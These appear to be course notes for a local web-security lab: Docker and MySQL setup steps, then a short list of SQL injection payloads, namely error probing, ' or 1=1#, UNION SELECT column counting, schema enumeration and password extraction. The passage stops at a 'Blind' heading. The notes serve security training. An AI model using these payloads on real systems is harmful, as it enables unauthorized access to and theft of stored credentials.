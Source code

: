 # Find & Exploit Common Web Application Vulnerabilities

### Lab Setup

```
sudo apt update

sudo apt upgrade

sudo apt install docker.io

sudo apt install docker-compose
```

RESTART YOUR VM

Copy the labs to a directory in your system, then open a terminal to that directory

```
tar -xf peh-web-labs.tar.gz

cd labs

sudo docker-compose up
```

The first time it runs, it will need to download some things, it may take a while depending on your 
connection. Next time you run it though, it will be much faster.

Once you see the databases are 'ready for connections' the containers should be ready to go.

The final step is to set some permissions for the webserver, this is needed for the file upload labs and the capstone challenge.

`./set-permissions.sh`

Browse to http://localhost

The first time you load the lab the database will need to be initialized, just follow the instructions in the 
red box by clicking the link, then coming back to the homepage.

Reset lab by navigating to /init.php

### SQL Injection - Introduction

```
# start the mysql service
sudo systemctl start mysql

# login to mysql
sudo mysql

# create the db and tables
CREATE DATABASE sqldemo;
use sqldemo;
CREATE TABLE users (
	username varchar(255),
	password varchar(255),
	age int,
	PRIMARY KEY (username)
);

# insert data into the users table
INSERT INTO users (username,password,age)
VALUES ("jessamy","kittems",31);
```

### SQL injection - UNION

try and force SQL errors with `'` or `"`

Find injection with ojectively true statements `' or 1=1#`

Use union to pull data from tables and columns that aren't part of the SQL query

Union select can only select the same number of columns as the original query

Determine how many columns are being used with `null`:

`jeremy' union select null#`
`jeremy' union select null,null#`
`jeremy' union select null,null,null#`

Query the DB version with a union select:

`jeremy' union select null,null,version()#`

Table names:

`jeremy' union select null,null,table_name from information_schema.tables#`

Column names:

`jeremy' union select null,null,column_name from information_schema.columns#`

Exfiltrate passwords:

`jeremy' union select null,null,password from injection0x01#`

Null's may not work as the type won't match with the column (null is a string)

Use `null(int)` or basic integers instead:

`jeremy' union select null(int),1,password from injection0x01#`

[Portswigger SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### SQL injection - Blind
